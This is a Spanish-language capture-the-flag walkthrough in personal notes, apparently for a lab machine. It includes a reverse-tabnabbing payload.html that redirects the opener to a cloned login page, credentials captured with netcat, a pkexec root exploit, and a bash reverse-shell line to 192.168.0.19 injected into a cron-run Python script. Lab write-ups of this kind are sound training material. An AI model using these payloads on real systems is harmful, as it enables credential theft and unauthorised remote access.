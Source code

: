 Haremos los reconocimientos de nmap y vemos el puerto 80 y 22 abiertos:
![[Mis apuntes/ANEXOS/Pasted image 20230423173949.png]]
Esta es la página web:
![[Mis apuntes/ANEXOS/Pasted image 20230423174147.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230423174212.png]]
Vamos a probar en registrarnos con el usuario mario y la contraseña 123123:
![[Mis apuntes/ANEXOS/Pasted image 20230423174408.png]]
Y tenemos esta página:
![[Mis apuntes/ANEXOS/Pasted image 20230423174429.png]]
En este punto interceptamos la petición con burpsuite en el punto de cambiar la contraseña y convertimos la petición a GET:
![[Mis apuntes/ANEXOS/Pasted image 20230423174731.png]]
Y si ponemos esto mismo en el navegador de esta forma también se va a cambiar la contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230423174835.png]]
Pero vemos que no funciona, por lo que a simple vista no es vulnerable a [[MAQUINA SECNOTES (SQL Injection, CSRF (Cross-site request forgery), detectar usuarios válidos con wfuzz, netcat en windows, php malicioso y escalar privilegios en máquina Windows con subsistema de Linux instalado a través de ejecutar un bash.exe)]]. Por lo que vamos a buscar otros métodos. Por lo que vamos a probar en poner un link en el campo de input:
![[Mis apuntes/ANEXOS/Pasted image 20230423175717.png]]
Damos a submit y ahora miramos el código fuente de la página:
![[Mis apuntes/ANEXOS/Pasted image 20230423175743.png]]
Y en el código fuente vemos que en la parte de target pone blank, lo cual es una vulnerabilidad:
![[Mis apuntes/ANEXOS/Pasted image 20230423175837.png]]
Y si buscamos en google nos confirman que se trata de una vulnerabilidad y aquí tenemos esta web que nos explica como explotar esta vulnerabilidad:
![[Mis apuntes/ANEXOS/Pasted image 20230423175934.png]]
Nos dicen que primero tenemos que crear un documento html que podremos llamar por ejemplo payload.html:
```html
<html>
<script>
        if (window.opener) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
        if (window.parent != window) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
</script>
</html>
```
![[Mis apuntes/ANEXOS/Pasted image 20230423182649.png]]
Y luego vamos a crear otro llamado index.html que tenga el código fuente de la página
![[Mis apuntes/ANEXOS/Pasted image 20230423182718.png]]
Pegamos todo esto en el index.html:
![[Mis apuntes/ANEXOS/Pasted image 20230423182758.png]]
Tenemos ambos archivos creados:
![[Mis apuntes/ANEXOS/Pasted image 20230423182817.png]]
Por tanto, una vez con todo esto hecho, vamos a crear uns ervidor web con python alojando estos dos archivos:
![[Mis apuntes/ANEXOS/Pasted image 20230423182850.png]]
Y ahora dentro de la web, simplemente tenemos que llamar a este servidor web de python al archivo payload.html de la siguiente manera, poniendo 
```html
	http://192.168.0.19:80/payload.html
```
![[Mis apuntes/ANEXOS/Pasted image 20230423183041.png]]
Nos pondremos en el escucha también con netcat:
![[Mis apuntes/ANEXOS/Pasted image 20230423183110.png]]
Y ahora le damos clic a submit y habremos recibido por netcat las credenciales del usuario:
![[Mis apuntes/ANEXOS/Pasted image 20230423183235.png]]
Tenemos estas credenciales: 
```python
username=daniel

password=C%40ughtm3napping123
```
Vimos que teníamos abierto el puerto ssh, el puerto 22, por lo que vamos a probar en poner estas credenciales, pero veremos que no funcionan:
![[Mis apuntes/ANEXOS/Pasted image 20230423183749.png]]
Por lo que es posible que esta password venga codificada de alguna manera, por lo que vamos a abrir burpsuite para corregir esto,  ya que viene url-encodeada; y vemos que ahora la password es C@ughtm3napping123:
![[Mis apuntes/ANEXOS/Pasted image 20230423183927.png]]
Probamos esta contraseña por ssh y vemos que ya funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230423184048.png]]
Llegados a este punto, tenemos dos formas de escalar los privilegios, o bien con la herramienta linux-exploit-suggester ejecutándolo todo desde el usuario Daniel o bien modificando un archivo .py dentro del directorio del usuario adrián para mandarnos una reverse shell y escalar los privilegios con VIM:
## ESCALADA 1
Una vez dentro, podemos utilizar una herramienta que se llama linux exploit suggester [[1 - Linux Exploit Suggester]] que nos hará un análisis automatizado buscando vulnerabilidades; y encontramos una en la versión de sudo:
![[Mis apuntes/ANEXOS/Pasted image 20230227133025.png]]
Nos lo clonamos dentro de la máquina víctima y lo ejecutamos, donde veremos que probablemente es vulnerable a la vulnerabilidad CVE-2021-3156:
![[Mis apuntes/ANEXOS/Pasted image 20230423185958.png]]
Podemos confirmar que esto es vulnerable con el comando sudo -V, para ver la versión de sudo:
![[Mis apuntes/ANEXOS/Pasted image 20230423190026.png]]
Tenemos este repositorio de github donde se nos muestra cómo explotar esta vulnerabilidad, donde además vemos que en el ejemplo que se nos pone en este repositorio la máquina víctima tiene la misma versión de sudo que la nuestra:
![[Mis apuntes/ANEXOS/Pasted image 20230423190237.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230423190300.png]]
Pero cuando ejecutamos este exploit vemos que no funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230423190736.png]]
Por lo que volvemos a mirar por más vulnerabilidades de la herramienta linux-exploit-suggester:
![[Mis apuntes/ANEXOS/Pasted image 20230423190825.png]]
Si buscamos herramientas para explotar esta vulnerabilidad, encontramos esta de github:
![[Mis apuntes/ANEXOS/Pasted image 20230423190852.png]]
Y tenemos un proof of concept que nos explica como explotar esto mismo, donde vemos que simplemente tenemos que ejecutar el comando make y luego el exploit que se nos genera para convertirnos en root:
![[Mis apuntes/ANEXOS/Pasted image 20230423190938.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230423191005.png]]
Esto nos habrá generado un archivo llamado cve-2021-4034, el cual simplemente tenemos que ejecutarlo y ya somos root:
![[Mis apuntes/ANEXOS/Pasted image 20230423191045.png]]
Vemos que en el directorio de root tenemos un archivo llamado nap.py, el cual contiene unas credenciales de la base de datos mysql:
![[Mis apuntes/ANEXOS/Pasted image 20230423191500.png]]
Por tanto nos conectamos a esta base de datos con estas credenciales y estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230423191545.png]]
Y aquí encontramos las credenciales que haya dentro de la base de datos, aunque nos encontramos con nosotros mismos, que podríamos crackear nuestra password con john the ripper fácilmente ya que nuestra password era password1
![[Mis apuntes/ANEXOS/Pasted image 20230423191711.png]]
## ESCALADA 2
Dentro del directorio personal del usuario Adrian tenemos un archivo llamado query.py:
![[Mis apuntes/ANEXOS/Pasted image 20230423192358.png]]
Y si vemos este código de python podemos ver que lo que hace es obtener la fecha actual del sistema y la guarda en el site_status.txt:
![[Mis apuntes/ANEXOS/Pasted image 20230424100708.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230424100727.png]]
Entonces aquí lo que podemos hacer es añadir dentro de este fichero de python el comando para ganar una reverse shell por parte del usuario Adrian, por lo que ponemos esto:

```bash
os.system("bash -c 'bash -i >& /dev/tcp/192.168.0.19/443 0>&1'")
```

![[Mis apuntes/ANEXOS/Pasted image 20230424100811.png]]
Y entonces ahora esperamos un minuto y habremos recibido la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230424100927.png]]
Y además siendo este usuario podemos ejecutar el comando sudo -l y vemos una vulnerabilidad que nos permite ejecutar comandos como root con vim:
![[Mis apuntes/ANEXOS/Pasted image 20230424101000.png]]
Por lo que procedemos a [[14 - Escalada de Privilegios con VIM]]:

